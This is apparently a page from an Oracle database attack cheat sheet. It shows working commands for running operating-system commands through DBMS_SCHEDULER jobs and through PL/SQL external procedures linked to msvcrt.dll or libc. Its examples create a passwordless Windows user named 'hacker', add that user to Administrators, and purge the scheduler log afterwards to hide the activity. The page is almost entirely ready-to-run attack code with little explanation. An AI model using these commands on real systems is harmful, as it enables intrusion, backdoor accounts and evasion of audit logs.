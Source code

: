 Code:

Create a Program for dbms_scheduler
``` 
exec DBMS_SCHEDULER.create_program('RDS2008','EXECUTABLE','c:\ WINDOWS\system32\cmd.exe /c echo 0wned >> c:\rds3.txt',0,TRUE);
```
Create, execute and delete a Job for dbms_scheduler
``` 
exec DBMS_SCHEDULER.create_job(job_name => 'RDS2008JOB',program_name => 'RDS2008',start_date => NULL,repeat_interval => NULL,end_date => NULL,enabled => TRUE,auto_drop => TRUE);
```
delete the program
``` 
exec DBMS_SCHEDULER.drop_program(PROGRAM_NAME => 'RDS2008');
```
Purge the logfile for dbms_scheduler
``` 
exec DBMS_SCHEDULER.PURGE_LOG;
```

## Executing OS Commands via PL/SQL & ExtProc
### Requirements

Running external procedure (extproc) in the listener
* Create any library
* Create (any) procedure
* 9i+: Environment setting containing the special DLL/Library
* ENVS=”EXTPROC_DLLS=ONLY:/home/xyz/mylib.so:/home/abc/urlib.so, EXTPROCT_DLLS=ANY

Windows:
```
sqlplus system/manager
SQL> CREATE OR REPLACE LIBRARY exec_shell AS 'C:\windows\system32\msvcrt.dll';
SQL> CREATE OR REPLACE package oracmd
is procedure exec(cmdstring IN CHAR);
end oracmd;
/
SQL> CREATE OR REPLACE package body oracmd IS
procedure exec(cmdstring IN CHAR)
is external NAME "system"
library exec_shell
LANGUAGE C;
end oracmd;
/
SQL> exec oracmd.exec('net user hacker nopassword /ADD');
SQL> exec oracmd.exec('net localgroup /ADD Administrators hacker');
Unix

sqlplus system/manager
create or replace library exec_shell as '/lib/libc-2.2.5.so';
/
create or replace package oracmd is
procedure exec(cmdstring IN CHAR);
end oracmd;
/
create or replace package body oracmd is
procedure exec(cmdstring IN CHAR)
is external
name "system"
library exec_shell
language c;
end oracmd;
/
SQL> exec oracmd.exec('ls');
```